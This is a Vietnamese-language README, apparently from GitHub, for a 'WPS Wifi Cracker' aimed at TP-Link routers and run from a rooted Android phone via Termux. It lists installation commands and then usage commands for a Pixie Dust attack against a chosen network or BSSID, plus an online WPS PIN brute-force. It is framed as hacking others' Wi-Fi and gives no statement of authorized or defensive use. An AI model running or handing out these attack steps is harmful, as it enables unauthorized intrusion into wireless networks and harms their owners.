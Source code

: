 ## BẢN 	TIẾNG VIỆT WPS_Wifi_Cracker_For_TP-Link_Router
### Hack TP Link Wifi Bằng Termux! (Yêu cầu quyền Root)t)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Cài đặt: :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/anhduong295/B-N-TI-NG-VI-T-WPS_Wifi_Cracker_For_TP-Link_Router-main.git
$ chmod +x WPS_Wifi_Cracker_For_TP-Link_Router/Tanvir_inject.py
To Run: 
$ sudo python Tanvir_inject.py -i wlan0 -K
```

#### Ví dụ: `sudo python Tanvir_inject.py -i wlan0 -K`

#### Lưu ý:: 
**Đầu tiên, hãy tắt Wifi của bạn.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust vào một mạng cụ thể.
- `sudo python Tanvir_inject.py -i wlan0 -K`
- Bắt đầu tấn công Pixie Dust vào một BSSID cụ thể: 
`sudo python Tanvir_inject.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Khởi chạy tấn công brute-force WPS trực tuyến với nửa đầu của mã PIN được chỉ định:
- `sudo python Tanvir_inject.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Khắc phục sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi sau đó tắt Wifi.**
